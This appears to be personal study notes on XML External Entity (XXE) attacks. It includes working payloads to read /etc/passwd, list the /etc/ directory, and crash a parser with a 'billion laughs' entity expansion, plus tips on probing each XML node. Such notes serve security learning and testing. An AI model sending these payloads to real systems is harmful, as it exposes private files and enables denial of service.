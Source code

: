 
XML COMMENT:  -> same as with HTML !

web.xml contains -> Servlet -> WEB URL 

PHP offers three frequently used methods of parsing and consuming XML: PHP DOM, SimpleXML and XMLReader. All three of these use the libxml2 extension

Bypassing IP restrictions:
 SINCE ALL HTTP REQUESTS BY THE XML PARSER WILL BE MADE FROM LOCALHOST.
 
----------------------------
XXE FILE ATTACK scenario:
----------------------------

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

<stockCheck><productId>&xxe;</productId></stockCheck>

!!
To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, 
by making use of your defined entity and seeing whether it appears within the response.
!! 

XXE DOS ATTACKS:
-----------------

<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ENTITY lola "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lolb "&lola;&lola;&lola;&lola;&lola;&lola;&lola;&lola;&lola;&lola;">
 <!ENTITY lolc "&lolb;&lolb;&lolb;&lolb;&lolb;&lolb;&lolb;&lolb;&lolb;&lolb;">
 <!ENTITY lold "&lolc;&lolc;&lolc;&lolc;&lolc;&lolc;&lolc;&lolc;&lolc;&lolc;">
 <!ENTITY lole "&lold;&lold;&lold;&lold;&lold;&lold;&lold;&lold;&lold;&lold;">
 <!ENTITY lolf "&lole;&lole;&lole;&lole;&lole;&lole;&lole;&lole;&lole;&lole;">
 <!ENTITY lolg "&lolf;&lolf;&lolf;&lolf;&lolf;&lolf;&lolf;&lolf;&lolf;&lolf;">
 <!ENTITY lolh "&lolg;&lolg;&lolg;&lolg;&lolg;&lolg;&lolg;&lolg;&lolg;&lolg;">
 <!ENTITY loli "&lolh;&lolh;&lolh;&lolh;&lolh;&lolh;&lolh;&lolh;&lolh;&lolh;">
]>
<attack>&loli;</attack>

-------------------
LIST DIRECTORY:
------------------

<?xml version="1.0"?>
<!DOCTYPE comment[<!ENTITY xxe SYSTEM "file:///etc/" >]>
<comment><text>file:///etc/ &xxe;</text></comment>

----------
CDATA
----------
XML also supports CDATA161 sections in which internal contents are not treated as markup just like regular text. 
